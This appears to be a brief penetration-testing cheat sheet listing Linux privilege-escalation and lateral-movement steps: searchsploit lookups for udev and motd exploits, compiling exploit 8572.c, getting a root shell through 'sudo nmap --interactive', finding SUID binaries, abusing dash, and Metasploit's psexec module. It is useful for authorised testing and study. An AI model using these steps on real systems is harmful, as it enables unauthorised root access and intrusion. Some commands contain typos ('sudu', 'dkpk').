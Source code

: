 ### udev vulnerabilities
```
udevadm --version (device manager)
```

```
/usr/share/exploitdb/searchsploit udev
gcc -o exploit 8572.c
ps aux | grep udev
cat /proc/net/netlink (PID of the udev daemon minus 1)
```

### motd

If `motd.legal-displayed` is present in home.

```
/usr/share/exploitdb/searchsploit motd
```

```
dkpk -i | grep -i pam
```

### dirtycow.ninja

Can crash boxes.

### nmap

Check if nmap is in `sudu -l`
```
sudo nmap --interactive
nmap> !sh
```

### Write access to cron

### Find set UID binaries

find / -perm -4000 2>/dev/null | xargs ls -la

### Using dash

Dash does not strip SUID bit when executing. Hence, it is possible to set UID bit and run it to get root shell.

# Lateral Movement

## PSExec (windows)

```
exploit/windows/smb/psexec
```
